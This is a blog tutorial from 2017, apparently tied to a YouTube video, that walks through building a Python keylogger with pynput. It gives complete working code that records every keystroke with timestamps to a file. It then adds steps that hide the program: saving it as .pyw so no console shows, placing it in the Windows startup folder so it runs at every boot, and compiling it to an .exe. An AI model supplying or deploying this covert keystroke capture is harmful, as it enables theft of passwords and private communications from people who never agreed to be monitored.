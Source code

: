 ```yaml
---
layout: post
title: "Python Keylogger"
date: 2017-12-15
categories: Youtube
tags: Python Keyboard Logging pynput
---
```


* content
{:toc}

This is a python keylogger which will work on windows, mac and linux. This script uses the pynput module. This python keylogger will store typed keys in a file in order of when they were typed.

{% include embedYouTube.html content="x8GbWt56TlY" %}

<!-- more -->

## PIP
If you haven't used or setup pip before, go to my tutorial at [{% link _posts/2017-12-13-how-to-setup-python's-pip.md %}]({{ site.baseurl }}{% link _posts/2017-12-13-how-to-setup-python's-pip.md %}) to setup pip. This is needed to install pynput to get keys typed.

## Installing Pynput
We will be using the pynput module to listen to mouse events. To install this module execute ```pip install pynput``` in cmd. Watch the output to make sure no errors have occurred; it will tell you when the module has been successfully installed.

![Installing pynput](/images/how-to-get-mouse-clicks-with-python-pynput1.png)

To double check that it was installed successfully, open up IDLE and execute the command ```import pynput```; no errors should occur.

![Testing pynput](/images/how-to-get-mouse-clicks-with-python-pynput2.png)

## Building the Keylogger
Create a new Python file and import Key and Listener from pynput.keyboard and the logging module.

```python
from pynput.keyboard import Key, Listener
import logging
```

Next set a variable which points to where you want to save the logs; leave this as an empty string to save the log beside the python script. Then setup the logging module as shown below.

```python
log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

```

Then create a definition for keypresses called on_press which takes key as a parameter. In this definition we want to log using the info method the key type casted to a string.

```python
def on_press(key):
    logging.info(key)
```

Next setup an instance of Listener and define the on_press method in a with statement and then join the instance to the main thread.

```python
with Listener(on_press=on_press) as listener:
    listener.join()
```

Now save the file with a .pyw file extension to make sure that the console doesn't appear when it's run.

![Save as .pyw](/images/python-keylogger-pyw.png)

Run the script in IDLE to make sure that you haven't made any errors. Errors will show up in here if some do occur.

## Autostart
To make the script run on startup first go to your startup folder. Hold down the windows button and press "R" or type run in the windows menu to make the run dialog appear.

![shell:startup example](/images/python-keylogger-run.png)

Now type ```shell:startup``` in the dialog and press enter. This will open a window at your startup folder.

Copy the keylogger into this folder and then create a new folder somewhere else for logs to be saved to. Make sure this folder is not in the startup folder or it will be opened every time the computer has started. Open the keylogger in IDLE and now change the log_dir to the location of the folder you just created. Make sure this folder path uses forward slashes ('/') and contains a forward slash at the end.

## Stopping the Keylogger
To stop the keylogger, open up task manager and look for anything named python as shown below due to windows just showing program names. If you have an older version of windows, I recommend looking for pythonw.exe. Right click on this and end the task.

![Python in task manager](/images/python-keylogger-taskmgr.png)

## Final Script
```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(key)

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Compile to EXE
Want to convert this .py to a .exe? Head over to my tutorial at [{{ site.baseurl }}{% link _posts/2017-12-11-convert-.py-to-.exe.md %}]({{ site.baseurl }}{% link _posts/2017-12-11-convert-.py-to-.exe.md %}) to do it in a few easy steps. This tutorial also shows you how to remove the console that shows up, make one file executables and even add an icon.

Converting to .exe will allow the script to run on windows computers without python installed (python is pre-installed on mac and most linux computers)

## FAQ
If you have any questions, please go to the video at the top of this article and leave a comment. I aim to reply in less than two days.

### 'python' is not recognized as an internal or external command
Python hasn't been installed or it hasn't been installed properly. Go to [{% link _posts/2017-12-13-how-to-setup-python's-pip.md %}]({{ site.baseurl }}{% link _posts/2017-12-13-how-to-setup-python's-pip.md %}) and follow the tutorial. Just before you enter the scripts folder into the path variable, remove the "\scripts\" part at the end. You will also want to add another path with "\scripts\" to have pip.

### Where are the log files?
They will be located next to the python file (in the current directory for more advanced users). If it hasn't appeared, make sure you run the script in IDLE to check for errors you have made.

### What is pynput's GitHub page?
[https://github.com/moses-palmer/pynput](https://github.com/moses-palmer/pynput)

### It doesn't work
Make sure you run the script in IDLE to check for errors you have made

### How can I stop the listener?
As documented at [https://pythonhosted.org/pynput/keyboard.html](https://pythonhosted.org/pynput/keyboard.html) you can use pynput.keyboard.Listener.stop() to stop listening.

### "Shift + Right Click" action it only gives an option for Power Shell
Powershell is fine, don't worry, it does the same stuff and more. Use it.
